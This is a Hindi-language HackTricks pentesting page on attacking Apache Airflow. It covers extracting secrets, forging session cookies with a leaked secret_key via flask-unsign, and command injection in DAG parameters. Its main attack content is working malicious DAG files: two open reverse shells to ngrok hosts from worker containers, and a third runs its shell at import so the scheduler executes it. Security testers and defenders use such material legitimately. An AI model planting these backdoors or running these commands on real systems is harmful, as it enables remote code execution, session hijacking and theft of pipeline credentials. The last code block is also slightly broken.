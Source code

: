# Apache Airflow सुरक्षा

<details>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## मूल जानकारी

[**Apache Airflow**](https://airflow.apache.org) **डेटा पाइपलाइन या वर्कफ़्लो का आयोजन और अनुसूचित करने के लिए एक प्लेटफ़ॉर्म के रूप में काम करता है**। डेटा पाइपलाइन के संदर्भ में "आयोजन" शब्द विभिन्न स्रोतों से उत्पन्न जटिल डेटा वर्कफ़्लो को व्यवस्थित, समन्वित और प्रबंधित करने की प्रक्रिया का संकेत करता है। इन आयोजित डेटा पाइपलाइन का मुख्य उद्देश्य प्रसंस्कृत और उपभोग्य डेटा सेट प्रदान करना है। ये डेटा सेट व्यापक रूप से व्यावसायिक बुद्धिमत्ता उपकरण, डेटा विज्ञान और मशीन लर्निंग मॉडल जैसे अनेक एप्लिकेशनों द्वारा व्यापक रूप से उपयोग किए जाते हैं, जो सभी बड़े डेटा एप्लिकेशन के कार्यान्वयन के लिए मौलिक हैं।

मुख्य रूप से, Apache Airflow आपको कोड के निष्पादन को **अनुसूचित करने की अनुमति देगा जब कुछ होता है** (घटना, cron)।

## स्थानीय प्रयोगशाला

### डॉकर-कंपोज

आप **डॉकर-कंपोज विन्यास फ़ाइल का उपयोग कर सकते हैं** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) एक पूर्ण एपाचे एयरफ्लो डॉकर परिवेश लॉन्च करने के लिए। (यदि आप MacOS में हैं तो डॉकर VM को कम से कम 6GB रैम देने का सुनिश्चित करें)।

### मिनीक्यूब

एक आसान तरीका **एपाचे एयरफ्लो** को चलाने का एक तरीका है **मिनीक्यूब के साथ इसे चलाना**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Configuration

Airflow में **संवेदनशील जानकारी** रखी जा सकती है या आपको कमजोर कॉन्फ़िगरेशन मिल सकती है:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflow पर हमला करने से पहले आपको समझना चाहिए **अनुमतियों कैसे काम करती हैं**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## हमले

### वेब कंसोल जांच

यदि आपके पास **वेब कंसोल तक पहुंच** है तो आप निम्नलिखित जानकारी में से कुछ या सभी तक पहुंच सकते हैं:

* **चर** (यहां कस्टम संवेदनशील जानकारी संग्रहित की जा सकती है)
* **कनेक्शन** (यहां कस्टम संवेदनशील जानकारी संग्रहित की जा सकती है)
* इन्हें `http://<airflow>/connection/list/` में एक्सेस करें
* [**कॉन्फ़िगरेशन**](./#airflow-configuration) (यहां संवेदनशील जानकारी जैसे **`secret_key`** और पासवर्ड संग्रहित की जा सकती है)
* सूची **उपयोगकर्ता और भूमिकाएँ**
* प्रत्येक DAG का **कोड** (जिसमें दिलचस्प जानकारी हो सकती है)

### चर मानों को पुनः प्राप्त करें

चर Airflow में संग्रहित किए जा सकते हैं ताकि **DAGs** उनके मानों तक **पहुंच** सकें। यह अन्य प्लेटफ़ॉर्मों के रहस्यों के समान है। यदि आपके पास **पर्याप्त अनुमतियाँ** हैं तो आप उन्हें GUI में `http://<airflow>/variable/list/` में एक्सेस कर सकते हैं।\
एयरफ्लो डिफ़ॉल्ट रूप से GUI में चर के मान को दिखाएगा, हालांकि, [**इस**](https://marclamberti.com/blog/variables-with-apache-airflow/) के अनुसार एक **सूची चर** सेट करना संभव है जिसके **मान** GUI में **एस्ट्रिक्स** के रूप में प्रकट होंगे।

![](<../../.gitbook/assets/image (164).png>)

हालांकि, ये **मान** अब भी **CLI** (आपको डीबी एक्सेस होना चाहिए), **अर्बिट्रे DAG** निष्पादन, **एपीआई** जो चरों के एंडपॉइंट तक पहुंचने की आवश्यकता है (एपीआई सक्रिय किया जाना चाहिए), और **यहां तक कि GUI खुद से भी!**\
उन मानों तक पहुंचने के लिए GUI से बस **चरों को चुनें** जिन्हें आप एक्सेस करना चाहते हैं और **क्रियाएँ -> निर्यात** पर क्लिक करें।\
एक और तरीका है **गुप्त मान** को प्राप्त करने के लिए **ब्रूटफ़ोर्स** करना जिसे आपको इसे प्राप्त होने तक **खोज फ़िल्टरिंग** करना होगा:

![](<../../.gitbook/assets/image (152).png>)

### विशेषाधिकार उन्नयन

यदि **`expose_config`** कॉन्फ़िगरेशन को **सच** पर सेट किया गया है, **उपयोगकर्ता भूमिका** और **ऊपर** से **वेब में** कॉन्फ़िग पढ़ सकते हैं। इस कॉन्फ़िग में **`secret_key`** दिखाई देता है, जिसका मतलब है कि किसी भी उपयोगकर्ता के पास इस वैध वे अपना खुद का साइन कुकी बना सकते हैं और किसी अन्य उपयोगकर्ता खाता अनुकरण कर सकते हैं।
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG बैकडोर (Airflow कार्यकर्ता में RCE)

यदि आपके पास **लेखन अधिकार** है जहां **DAGs सहेजे जाते हैं**, तो आप बस **एक ऐसा** बना सकते हैं जो आपको **रिवर्स शैल** भेजेगा।\
ध्यान दें कि यह रिवर्स शैल **एक airflow कार्यकर्ता कंटेनर** के अंदर निष्पादित होगा:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG बैकडोर (Airflow स्केज्यूलर में RCE)

यदि आप किसी चीज को **कोड की जड़ में निष्पादित करने** के लिए सेट करते हैं, तो इस लेख के लिखने के समय पर, यह **DAG के फ़ोल्डर में रखने के कुछ सेकंड बाद स्केज्यूलर द्वारा निष्पादित किया जाएगा**।
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG निर्माण

यदि आप **DAG क्लस्टर के अंदर की किसी मशीन को कंप्रोमाइज** कर लेते हैं, तो आप `dags/` फोल्डर में नए **DAG स्क्रिप्ट** बना सकते हैं और वे **DAG क्लस्टर के अन्य मशीनों में प्रतिलिपि** बन जाएंगे।

### DAG कोड इंजेक्शन

जब आप GUI से DAG को निष्पादित करते हैं, तो आप इसे कोई **आर्ग्यूमेंट पास** कर सकते हैं।\
इसलिए, यदि DAG को सही ढंग से कोड नहीं किया गया है तो यह **कमांड इंजेक्शन के लिए संवेदनशील हो सकता है**।\
यही वह कारण है जो इस CVE में हुआ: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

आपको **DAGs में कमांड इंजेक्शन की खोज शुरू करने के लिए** जो कुछ भी जानने की आवश्यकता है, वह यह है कि **पैरामीटर** को कोड के साथ **`dag_run.conf.get("param_name")`** से **एक्सेस** किया जाता है।

इसके अतिरिक्त, **वेरिएबल्स** के साथ भी एक ही संवेदनशीलता हो सकती है (ध्यान दें कि पर्याप्त विशेषाधिकारों के साथ आप GUI में **वेरिएबल्स के मान को नियंत्रित कर सकते हैं**)। वेरिएबल्स को **इस तरह से एक्सेस** किया जाता है:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
यदि वे उदाहरण के रूप में एक बैश कमांड के अंदर उपयोग किए जाते हैं, तो आप एक कमांड इंजेक्शन कार्रवाई कर सकते हैं।

<details>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** को पीआर जमा करके और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में प्रस्तुत करके।

</details>
{% endhint %}
